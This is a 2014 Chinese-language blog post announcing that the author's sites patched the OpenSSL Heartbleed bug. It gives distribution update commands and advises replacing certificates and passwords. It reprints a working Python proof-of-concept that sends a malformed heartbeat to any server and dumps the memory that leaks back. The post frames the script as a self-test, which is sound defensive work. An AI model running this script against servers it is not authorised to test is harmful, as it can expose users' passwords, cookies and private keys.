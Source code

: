 ```yaml
---
title: 已修复 OpenSSL 心脏出血漏洞
tags:
  - CVE-2014-0160
  - OpenSSL
  - 心脏出血漏洞
id: 945
categories:
  - SinoSky
  - 信息安全
date: 2014-04-11 18:29:18
---
```


[![heartbleed](/uploads/2014/04/heartbleed.png)](/uploads/2014/04/heartbleed.png)

OpenSSL 在 2014 年 4 月 7 日爆出[心脏出血漏洞](https://zh.wikipedia.org/wiki/%E5%BF%83%E8%84%8F%E5%87%BA%E8%A1%80%E6%BC%8F%E6%B4%9E)（Heartbleed Vulnerability），本站也受到了影响，但我已经在第二天（4 月 8 日）通过更新 OpenSSL 的方式修复了漏洞，又在第三天（4 月 9 日）重新购买了 sinosky.org 的 SSL 证书，并 reissue 了 ezdl.it 的证书。

&nbsp;

受此漏洞影响的版本有 OpenSSL 1.0.2-beta 及 OpenSSL 1.0.1 - OpenSSL 1.0.1f，您可以通过更新 OpenSSL 至 1.0.1g 版本的方式自行修复此漏洞，修复漏洞后千万不要忘了重启相关的 web 服务（如 Apache、Nginx、Httpd 等）。

Debian、Red Hat Enterprise Linux（及其派生版，如 CentOS、Amazon Linux）和 Ubuntu（及其派生版，如 Linux Mint）等 Linux 发行版已经修复了此漏洞，但没有更改库版本。

Debian、Ubuntu 等：

<pre class="lang:sh" >
[sudo] apt-get update
[sudo] apt-get dist-upgrade
[sudo] apt-get install openssl libssl1.0.0 #安装最新版的 OpenSSL
</pre>

Red Hat Enterprise Linux、CentOS 等:

<pre class="lang:sh" >
[sudo] yum update
</pre>

&nbsp;

此漏洞使攻击者可以获取到被攻击网站的用户密码、cookie、SSL 证书的私钥等敏感信息，所以在修复此漏洞后，您应该立即更新 SSL 证书并通知用户修改密码。

ezdl.it 并不存储您 Google 账户的密码，但 Google 同样受到了此漏洞的影响，所以我仍建议您更改 Google 账户的密码。

&nbsp;

您可以使用 [Heartbleed test](http://filippo.io/Heartbleed/) 或以下代码来测试网站是否有此漏洞。

<pre class="lang:python" >
#!/usr/bin/python

# Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)
# The author disclaims copyright to this source code.

import sys
import struct
import socket
import time
import select
import re
from optparse import OptionParser

options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')

def h2bin(x):
    return x.replace(' ', '').replace('\n', '').decode('hex')

hello = h2bin('''
16 03 02 00  dc 01 00 00 d8 03 02 53
43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
00 0f 00 01 01
''')

hb = h2bin('''
18 03 02 00 03
01 40 00
''')

def hexdump(s):
    for b in xrange(0, len(s), 16):
        lin = [c for c in s[b : b + 16]]
        hxdat = ' '.join('%02X' % ord(c) for c in lin)
        pdat = ''.join((c if 32 <= ord(c) <= 126 else '.' )for c in lin)
        print '  %04x: %-48s %s' % (b, hxdat, pdat)
    print

def recvall(s, length, timeout=5):
    endtime = time.time() + timeout
    rdata = ''
    remain = length
    while remain > 0:
        rtime = endtime - time.time()
        if rtime < 0:
            return None
        r, w, e = select.select([s], [], [], 5)
        if s in r:
            data = s.recv(remain)
            # EOF?
            if not data:
                return None
            rdata += data
            remain -= len(data)
    return rdata

def recvmsg(s):
    hdr = recvall(s, 5)
    if hdr is None:
        print 'Unexpected EOF receiving record header - server closed connection'
        return None, None, None
    typ, ver, ln = struct.unpack('>BHH', hdr)
    pay = recvall(s, ln, 10)
    if pay is None:
        print 'Unexpected EOF receiving record payload - server closed connection'
        return None, None, None
    print ' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay))
    return typ, ver, pay

def hit_hb(s):
    s.send(hb)
    while True:
        typ, ver, pay = recvmsg(s)
        if typ is None:
            print 'No heartbeat response received, server likely not vulnerable'
            return False

        if typ == 24:
            print 'Received heartbeat response:'
            hexdump(pay)
            if len(pay) > 3:
                print 'WARNING: server returned more data than it should - server is vulnerable!'
            else:
                print 'Server processed malformed heartbeat, but did not return any extra data.'
            return True

        if typ == 21:
            print 'Received alert:'
            hexdump(pay)
            print 'Server returned error, likely not vulnerable'
            return False

def main():
    opts, args = options.parse_args()
    if len(args) < 1:
        options.print_help()
        return

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print 'Connecting...'
    sys.stdout.flush()
    s.connect((args[0], opts.port))
    print 'Sending Client Hello...'
    sys.stdout.flush()
    s.send(hello)
    print 'Waiting for Server Hello...'
    sys.stdout.flush()
    while True:
        typ, ver, pay = recvmsg(s)
        if typ == None:
            print 'Server closed connection without sending Server Hello.'
            return
        # Look for server hello done message.
        if typ == 22 and ord(pay[0]) == 0x0E:
            break

    print 'Sending heartbeat request...'
    sys.stdout.flush()
    s.send(hb)
    hit_hb(s)

if __name__ == '__main__':
    main()

</pre>

&nbsp;

央视也在今天（4 月 11 日）曝光了此漏洞，并称多数受影响的网站未告知用户已修复此漏洞，央视的采访还发现大部分网民并不知道或关心这个漏洞。